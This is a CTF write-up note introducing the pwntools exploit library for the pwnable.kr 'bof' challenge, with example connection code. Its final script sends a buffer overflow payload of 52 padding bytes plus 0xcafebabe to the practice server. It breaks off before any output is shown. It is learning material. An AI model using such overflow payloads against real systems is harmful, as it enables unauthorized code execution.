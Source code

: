 
## post-solve note -- pwn python
So, there's usually lots of ways to solve these types of things. And reading others solutions on the problem after you solve it is sometimes beneficial as well.

In doing other reading as well, I've come across the [pwntools python library](http://docs.pwntools.com/en/stable/).
> pwntools is a CTF framework and exploit development library. Written in Python, it is designed for rapid prototyping and development, and intended to make exploit writing as simple as possible.

```
# brew install pwntools
```

### [pwntools - getting started](http://docs.pwntools.com/en/stable/intro.html)

```
from pwn import *
```
> ... You can now assemble, disassemble, pack, unpack, and many other things with a single function.
>
> [full list of everthing that's available after `from pwn import *`](http://docs.pwntools.com/en/stable/globals.html)

**Making Connections** -- this seems good, since we have to run the executable via `nc`.
> [pwnlib.tubes — Talking to the World!](http://docs.pwntools.com/en/stable/tubes.html#module-pwnlib.tubes)
>
> This exposes a standard interface to talk to processes, sockets, serial ports, and all manner of things, along with some nifty helpers for common tasks. For example, remote connections via pwnlib.tubes.remote.

```
conn = remote('pwnable.kr', 9000)
conn.send(b'AAAAAAAAAAAAAAA\n')
conn.recvuntil(b' ', drop=True)
conn.recvline()
conn.close()
```

Gives us:

```
./py_pwn.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Closed connection to pwnable.kr port 9000
```

**context.log_level**
> = 'debug'
>
> Will cause all of the data sent and received by a tube to be printed to the screen.

```python
#!/usr/bin/env python
from pwn import *

context.log_level = 'debug'

conn = remote('pwnable.kr', 9000)
conn.send('A'*52+'\xbe\xba\xfe\xca')
conn.close()
```
Gives us now:
